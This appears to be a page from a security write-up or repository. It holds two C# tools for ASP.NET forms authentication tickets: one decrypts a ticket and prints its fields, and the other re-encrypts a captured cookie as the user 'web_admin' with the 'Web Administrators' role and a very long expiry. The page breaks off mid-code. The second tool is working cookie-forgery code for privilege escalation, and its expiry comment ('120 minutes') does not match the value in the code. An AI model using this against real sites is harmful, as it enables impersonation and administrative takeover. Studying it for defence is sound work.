 **Decryption Tool (FormsTicketCrypt):**

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Web;
using System.Web.Security;

namespace FormsTicketCrypt
{
    class Program
    {
        static void Main(string[] args)
        {
            // Test if input arguments were supplied.
            if (args.Length == 0)
            {
                Console.WriteLine("Please supply encrypted forms ticket");
                return;
            }
            string encryptedTicket = args[0];
            FormsAuthenticationTicket unencryptedTicket = FormsAuthentication.Decrypt(encryptedTicket);
            Console.WriteLine(unencryptedTicket.Version);
            Console.WriteLine(unencryptedTicket.Name);
            Console.WriteLine(unencryptedTicket.IssueDate);
            Console.WriteLine(unencryptedTicket.Expiration);
            Console.WriteLine(unencryptedTicket.IsPersistent);
            Console.WriteLine(unencryptedTicket.UserData);
            Console.WriteLine(unencryptedTicket.CookiePath);
            Console.ReadLine();
        }
    }
}
```

**Encryption Tool (FormsEncryptor):**

```csharp
using System;
using System.Web.Security;

namespace FormsEncryptor
{
    class Program
    {
        static void Main(string[] args)
        {
            // Take an existing forms cookie
            string encryptedTicket = "E6144BAF6A52D21C245C97C261FCB74EB3A7D83EC6F2EDF940DA34C7A154FF53E7F4F27C87A338F0BB428C1B61C1777F0C0BFDCE6D784D238AF5BCFEA0B35FEB5630242023BB507E319E4F9F75DAC97B7D593F027844B935B2CCB675A0F7EEDA68E0111F2E2811C2838D77B9CD03050C557833B66972A5E85B42459EFFB4B2F66D724F050E3B904F9C79CD04251138316FC899303C5537826AE6513204A7186D";
            string replacedUsername = "web_admin";
            string newRole = "Web Administrators";
            FormsAuthenticationTicket unencryptedTicket = FormsAuthentication.Decrypt(encryptedTicket);
            FormsAuthenticationTicket ticket = new FormsAuthenticationTicket(1,
                //unencryptedTicket.Name, //comment out if you want to change the username
                replacedUsername, //uncomment if you want to change the username
                DateTime.Now,
                DateTime.Now.AddMinutes(120000000), // Add 120 minutes to expiry
```